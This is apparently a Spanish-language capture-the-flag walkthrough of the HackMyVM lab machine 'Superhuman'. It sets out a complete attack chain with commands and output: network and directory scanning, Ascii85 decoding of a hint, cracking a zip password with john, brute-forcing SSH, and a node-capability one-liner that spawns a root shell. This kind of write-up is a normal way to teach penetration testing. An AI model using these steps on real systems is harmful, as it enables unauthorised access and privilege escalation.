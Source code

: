 ## MAQUINA SUPERHUMAN 

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20233159.png)

Hacemos un escaneo de red con arp-scan

```console
arp-scan -I eth0 --localnet
Interface: eth0, type: EN10MB, MAC: 08:00:27:57:91:54, IPv4: 192.168.0.162
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.0.1     f8:08:4f:71:a2:de       Sagemcom Broadband SAS
192.168.0.33    08:00:27:1d:22:f1       PCS Systemtechnik GmbH
192.168.0.234   4c:82:a9:09:41:63       CLOUD NETWORK TECHNOLOGY SINGAPORE PTE. LTD.
192.168.0.232   18:c0:4d:26:7c:42       GIGA-BYTE TECHNOLOGY CO.,LTD.
```
![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20212435.png)

Listo ya tenemos la ip victima, ahora lanzamos un ping a ella para verificar que tengamos conectividad

```console
ping -c 3 192.168.0.33
PING 192.168.0.33 (192.168.0.33) 56(84) bytes of data.
64 bytes from 192.168.0.33: icmp_seq=1 ttl=64 time=3.54 ms
64 bytes from 192.168.0.33: icmp_seq=2 ttl=64 time=1.19 ms
64 bytes from 192.168.0.33: icmp_seq=3 ttl=64 time=0.815 ms
```

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20212529.png)

Lanzamos un escaneo con nmap a la maquina victima para ver que puertos y servicios estan abiertos:

```console
nmap -A -T5 192.168.0.33 -oN escaneo2.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-13 21:25 -03
Nmap scan report for superhuman.fibertel.com.ar (192.168.0.33)
Host is up (0.0011s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9e:41:5a:43:d8:b3:31:18:0f:2e:32:36:cf:68:c4:b7 (RSA)
|   256 6f:24:81:b4:3d:e5:b9:c8:47:bf:b2:8b:bf:41:2d:51 (ECDSA)
|_  256 49:5f:c0:7a:42:20:76:76:d5:29:1a:65:bf:87:d2:24 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:1D:22:F1 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20212619.png)

La pagina nos arroja un entorno todo en blanco, el cual no nos sirve de nada, asi que vamos a realizar un escaneo de directorios ocultos con gobuster.

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20212930.png)

```console
gobuster dir --url http://192.168.0.33/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x txt.

Starting gobuster in directory enumeration mode
===============================================================
/server-status        (Status: 403) [Size: 277]
/notes-tips.txt       (Status: 200) [Size: 358]
```

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20224922.png)

CONSEJO: "Prueben esa wordlists y mandenle full a los hilos porque tarda"

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20223932.png)

El gobuster nos arroja un directorio llamado /notes-tips.txt, ingresamos a ella y tenemos esta cadena de texto rara.

```console
F(&m'D.Oi#De4!--ZgJT@;^00D.P7@8LJ?tF)N1B@:UuC/g+jUD'3nBEb-A+De'u)F!,")@:UuC/g(Km+CoM$DJL@Q+Dbb6ATDi7De:+g@<HBpDImi@/hSb!FDl(?A9)g1CERG3Cb?i%-Z!TAGB.D>AKYYtEZed5E,T<)+CT.u+EM4--Z!TAA7]grEb-A1AM,)s-Z!TADIIBn+DGp?F(&m'D.R'_DId*=59NN?A8c?5F<G@:Dg*f@$:u@WF`VXIDJsV>AoD^&ATT&:D]j+0G%De1F<G"0A0>i6F<G!7B5_^!+D#e>ASuR'Df-\,ARf.kF(HIc+CoD.-ZgJE@<Q3)D09?%+EMXCEa`Tl/c
```

Para decodificar esto utilize la siguiente pagina ya que no podia decifrarla.

>https://www.dcode.fr/ascii-85-encoding

Una vez decodifcada dice lo siguiente:

>salome doesn't want me, I'm so sad... i'm sure god is dead...

>I drank 6 liters of Paulaner.... too drunk lol. I'll write her a poem and she'll

>desire me. I'll name it salome_and_?? I don't know.

>I must not forget to save it and put a good extension because I don't have much storage

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20225309.png)

Al parecer el que escribio esta nota, guardo un poema que se llama salome_and_??.

Bien si nos ponemos a pensar dice que lo guardo en una extension porque no tenia espacio xD, eso nos da una pista de que puedo ser una extension tar,zip,gz.. otro caso son los signos de pregunta de como se llama el poema "??", piensen, yo supongo que como habla de él debe ser "me".

Vamos a ver si existe, coloquemos las posibilidades en el navegador.

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20225700.png)

Se nos descargo un archivo, con john the ripper vamos a tratar de creakear la pass del archivo.

```console
zip2john salome_and_me.zip > hash-zip
```
![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20230110.png)

Luego: 

```console

john --wordlist=/usr/share/wordlists/rockyou.txt hash-zip 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 5 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
******           (salome_and_me.zip/salome_and_me.txt)     
1g 0:00:00:00 DONE (2024-04-13 23:00) 16.66g/s 170666p/s 170666c/s 170666C/s 123456..1asshole
Use the "--show" option to display all of the cracked passwords reliably
```
![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20230115.png)

Una vez descargado leemos el poema y aca tenemos al dueño del poema el Sr. fred.

```console
----------------------------------------------------

             GREAT POEM FOR SALOME

----------------------------------------------------


My name is fred,
And tonight I'm sad, lonely and scared,
Because my love Salome prefers schopenhauer, asshole,
I hate him he's stupid, ugly and a peephole,
My darling I offered you a great switch,
And now you reject my love, bitch
I don't give a fuck, I'll go with another lady,
And she'll call me BABY!

```

Ya tenemos una credencial, si pensamos y leemos el poema, notamos que tiene palabras medias raras, lo que hize fue colocar todas las palabras una debajo de la otra para luego utilizarla de contraseñas para logearnos en el SSH.

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20230436.png)

Con metasploit vamos a ingresar las opciones para ver si conseguimos dar con la contraseña.

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20231410.png)

Y BIEN! obtivimos la password, aclaro que tambien se puede hacer son "hydra" a la fuerza bruta.

Ingresamos con las credenciales y somos el usuario fred.

Chusmeamos a que tenemos por delante

```console
fred@superhuman:~$ uname -a 
Linux superhuman 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 GNU/Linux
fred@superhuman:~$ lsb_release -a 
No LSB modules are available.
Distributor ID: Debian
Description:    Debian GNU/Linux 10 (buster)
Release:        10
Codename:       buster
```

Aca hay un pequeño detalle, al listar el contenido del directorio, esta nos bota o rechaza o nos saca como quieran decirlo, asi que encontra esta forma de buscar y leer las flags ya que si le coloque el "ID" y no me saco XD.

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20232002.png)

```console

find / -type f -name '*.txt' 2>/dev/null
/home/fred/cmd.txt
/home/fred/user.txt
/var/www/html/notes-tips.txt
```

Excelente, ahora nos queda por escalar privilegios, para eso utilizamos el siguiente:

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20232740.png)

Hay una capabilities que podemos explotar, en este caso vamos a gtfobins >> node >> y vemos que tenemos las capabilities. Para loguearnos como root usamos el siguiente comando.

>fred@superhuman:/$ which node
/usr/bin/node
fred@superhuman:/$ /usr/bin/node -e 'process.setuid(0); require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'

![](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-04-13%20232957.png)


##SOMOS ROOT.




